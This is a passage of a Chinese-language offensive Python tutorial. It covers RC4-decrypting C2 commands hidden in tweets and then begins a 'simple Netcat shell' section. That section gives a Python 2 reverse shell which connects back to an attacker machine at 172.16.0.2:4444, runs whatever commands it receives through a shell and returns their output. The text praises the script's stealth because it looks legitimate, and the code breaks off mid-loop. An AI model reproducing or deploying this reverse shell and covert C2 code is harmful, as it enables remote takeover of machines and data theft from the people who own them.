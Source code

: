 因为每个步骤都需要两条推文，我在每个命令检查之间留了一个小时的间隔，但您可以很容易地根据自己的需要进行更改：

```py
time.sleep(3600)
```

对于解码，导入`RC4`库，将您的关键推文设置为密钥，并将重新组装的 base64 设置为响应：

```py
from Crypto.Cipher import ARC4
key = "".encode("hex")
response = ""
```

使用关键字设置一个新的`RC4`代码，从 base64 解码数据，并使用关键字解密它：

```py
enc = ARC4.new(key)
response = response.decode("base64")
print enc.decrypt(response)
```

# 创建一个简单的 Netcat shell

我们将创建以下脚本，利用原始套接字从网络中泄露数据。这个 shell 的一般思想是在受损的机器和您自己的机器之间创建一个连接，通过 Netcat（或其他程序）会话发送命令到这台机器。

这个 Python 脚本的美妙之处在于它的隐蔽性，因为它看起来就像一个完全合法的脚本。

## 如何做…

这是将通过 Netcat 建立连接并读取输入的脚本：

```py
import socket
import subprocess
import sys
import time

HOST = '172.16.0.2'    # Your attacking machine to connect back to
PORT = 4444           # The port your attacking machine is listening on

def connect((host, port)):
   go = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   go.connect((host, port))
   return go

def wait(go):
   data = go.recv(1024)
   if data == "exit\n":
      go.close()
      sys.exit(0)
   elif len(data)==0:
      return True
   else:
      p = subprocess.Popen(data, shell=True,
         stdout=subprocess.PIPE, stderr=subprocess.PIPE,
         stdin=subprocess.PIPE)
      stdout = p.stdout.read() + p.stderr.read()
      go.send(stdout)
      return False

def main():
   while True:
      dead=False
      try:
         go=connect((HOST,PORT))
         while not dead:
```